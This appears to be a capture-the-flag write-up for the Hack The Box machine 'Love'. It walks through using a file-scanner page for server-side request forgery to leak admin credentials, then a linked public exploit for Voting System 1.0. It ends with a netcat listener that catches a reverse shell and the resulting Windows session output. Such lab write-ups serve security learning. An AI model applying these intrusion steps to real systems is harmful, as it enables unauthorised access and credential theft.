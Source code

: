 # Enumeration-

 By adding the virtual host (`staging.love.htb`) in our hosts file we can access the web page on ssl-
 
 ```bash
 10.10.10.239    staging.love.htb 
 ```

![[Pasted image 20210702022201.png]]


# staging.love.htb-

![[Pasted image 20210702022523.png]]

We see a demo link bhy clicking on that we get redirected to a demo file scanner where we can enter URL-

![[Pasted image 20210702022649.png]]


# Ping-

We can enter our kali IP address and we see that indeed we  receive a connection-

![[Pasted image 20210702023007.png]]


# Exploit-

As we know there is also port 5000 open the box but we cant access it directly but what if we can access it internally using the file scanner-

![[Pasted image 20210702023510.png]]

And We got the Creds-

![[Pasted image 20210702023639.png]]

User-**admin**
Pass-**@LoveIsInTheAir!!!!**


# Login-

Using the above creds we were able to login-

![[Pasted image 20210702023944.png]]


![[Pasted image 20210702024043.png]]


# Exploit-

Just googling about voting system exploit we came up with-

[# Voting System 1.0 - Remote Code Execution (Unauthenticated)](https://www.exploit-db.com/exploits/49846)


![[Pasted image 20210702025852.png]]


![[Pasted image 20210702030233.png]]



# Reverse Shell-

Start your listener and click on Save-

```bash
root@napster:~/Documents/HTB/Love# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.15.4] from (UNKNOWN) [10.10.10.239] 59767
SOCKET: Shell has connected! PID: 6480
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\>whoami
love\phoebe
C:\Users\Phoebe>cd Des*

C:\Users\Phoebe\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of C:\Users\Phoebe\Desktop

04/13/2021  03:20 AM    <DIR>          .
04/13/2021  03:20 AM    <DIR>          ..
07/02/2021  12:39 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,061,003,776 bytes free

C:\Users\Phoebe\Desktop>type user.txt
1f33fc8555d76f4785833aac45abfb08
```




